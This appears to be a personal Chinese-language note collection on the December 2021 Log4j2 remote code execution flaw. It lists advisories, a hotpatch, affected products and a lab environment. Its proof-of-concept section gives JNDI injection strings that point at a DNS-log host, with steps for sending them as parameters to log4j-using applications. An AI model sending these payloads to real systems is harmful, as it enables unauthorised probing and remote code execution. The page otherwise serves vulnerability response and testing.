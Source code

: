 这个对应的 https://mvnrepository.com/artifact/org.springframework.boot/spring-boot-starter-log4j2
是已经升级到 2.15.0 的

### 运行时的热补丁
https://github.com/corretto/hotpatch-for-apache-log4j2

APACHE LOG4J2 远程代码执行漏洞处置手册
http://blog.nsfocus.net/apache-log4j2/

Apache Solr

Apache Struts2

Apache Flink

Apache Druid

spring-boot-strater-log4j2

## 20211210

Remote code injection in Log4j
https://github.com/advisories/GHSA-jfh8-c2jp-5v3q

【安全通报】Apache Log4j2 远程代码执行漏洞
https://nosec.org/home/detail/4917.html
  Vulfocus 靶场环境
  目前 Vulfocus 已经集成 Log4j2 环境，可通过以下链接启动环境测试：
  http://vulfocus.fofa.so/#/dashboard?image_id=3b8f15eb-7bd9-49b2-a69e-541f89c4216c

  漏洞利用及POC验证
  poc:
  ${jndi:ldap://xxxxx.dnslog.cn/exp}
  ${jndi:rmi://xxxxx.dnslog.cn/exp}
到这里获得一个 地址
http://dnslog.cn/
如：mixazx.dnslog.cn
本地 ping mixazx.dnslog.cn
Refresh Record，发现有记录
找一个有 log4j 日志使用的应用，发送

${jndi:ldap://mixazx.dnslog.cn/exp}
${jndi:rmi://mixazx.dnslog.cn/exp}
做为参数

http://ceye.io/records/dns
https://log.xn--9tr.com/
这个有点慢
http://dnslog.cn/
[DNS 原理入门](https://www.ruanyifeng.com/blog/2016/06/dns.html)


[Apache Log4j远程代码执行漏洞风险通报信息汇总](https://www.freebuf.com/articles/308151.html)

POC：
https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/azhao1981/apache-log4j-poc
